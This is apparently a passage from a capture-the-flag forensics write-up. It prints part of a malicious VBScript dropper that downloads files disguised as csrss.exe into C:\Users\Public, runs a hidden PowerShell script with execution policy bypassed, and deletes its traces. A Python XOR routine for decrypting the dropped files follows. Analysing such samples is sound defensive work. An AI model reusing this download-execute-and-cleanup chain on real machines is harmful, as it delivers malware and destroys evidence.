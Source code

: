 ```
    Dim intReturnCode
    intReturnCode = objShell.Run("powershell -ExecutionPolicy Bypass -File C:\Users\Public\temp.ps1 -FilePath " & Chr(34) & arrFilePaths(i) & Chr(34) & " -KeyPath " & Chr(34) & strDownloadPath2 & Chr(34), 0, True)
    
    If intReturnCode <> 0 Then
        WScript.Echo "PowerShell script execution failed for " & arrFilePaths(i) & " with exit code: " & intReturnCode
    End If
Next

objShell.Run strExecutablePath, 1, True
objShell.Run strShowfilePath, 1, True
objFSO.DeleteFile "C:\Users\Public\csrss.dll"
objFSO.DeleteFile "C:\Users\Public\csrss.exe"
objFSO.DeleteFile "C:\Users\Public\csrss.exe.config"
objFSO.DeleteFile "C:\Users\Public\temp.ps1"

Sub DownloadFile(url, path)
    Dim objStream
    Set objStream = CreateObject("ADODB.Stream")
    objHTTP.Open "GET", url, False
    objHTTP.Send
    If objHTTP.Status = 200 Then
        objStream.Open
        objStream.Type = 1
        objStream.Write objHTTP.ResponseBody
        objStream.SaveToFile path, 2
        objStream.Close
    End If
    Set objStream = Nothing
End Sub
```

What the above script does was:
1. Download 4 files (csrss.dll, csrss.exe, csrss.exe.config, wanted.pdf) to `C:\Users\Public\` directory
2. Create `temp.ps1` which encrypt those 4 files using XOR and `csrss.dll` as the key before executing them
3. Delete the evidence

Download all the files from URL initialization as the challenge said. 

Below is a python script to decrypt those files

```py
import os

def xor_decrypt(file_path, key_path):
    with open(key_path, 'rb') as key_file:
        key = key_file.read()
    
    with open(file_path, 'rb') as file:
        file_content = bytearray(file.read())
    
    key_length = len(key)
    
    for i in range(len(file_content)):
        file_content[i] ^= key[i % key_length]
    
    with open(file_path, 'wb') as file:
        file.write(file_content)
    
    print(f"Decryption completed for: {file_path}")

```